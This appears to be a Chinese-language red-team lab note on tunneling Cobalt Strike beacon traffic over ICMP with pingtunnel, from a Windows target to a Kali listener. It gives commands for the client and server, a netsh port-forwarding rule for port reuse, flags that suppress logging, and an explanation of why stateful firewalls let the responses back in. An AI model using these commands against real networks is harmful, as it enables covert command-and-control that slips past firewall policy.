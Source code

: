 # ICMP隧道

./pingtunnel -type server

kali:192.168.111.128
目标机:win10192.168.111.130
入站规则:80(TCP)
出站规则:ICMP


将本地TCP端口6666转发到192.168.111.128:7777(kali)上,通过6666的TCP流量封装为ICMP,到7777解封
```
pingtunnel -type client -l :6666 -s 192.168.111.128 -t 192.168.111.128:7777 -tcp 1 -noprint 1 -nolog 1
```

-l：本地监听端口
-s：ICMP服务器IP
-t：服务端转发目标

CS生成:(reverse_http)
(目标机)127.0.0.1 6666(目标机后门)
192.168.111.128 7777(监听上线)
http->icmp出站

beacon_bind
监听目标机的6666(后门)
可以采用端口复用
```
# 在目标机执行（管理员权限）：
netsh interface portproxy add v4tov4 listenport=80 connectaddress=127.0.0.1 connectport=6666

# 然后：
pingtunnel -type client -l 0.0.0.0:80 -s 192.168.111.128 -t 192.168.111.128:7777

CS:connect 192.168.111.130:80
```
```
防火墙理解:
内网主机主动发出 ICMP 请求（出站允许） → 外网服务器返回 ICMP 响应（入站被拦截）
​但实际可用！​​ 因为：
防火墙通常允许 ​已建立会话的响应包入站​（状态化防火墙）
响应包属于内网主机主动请求的回复，不会被拦截
```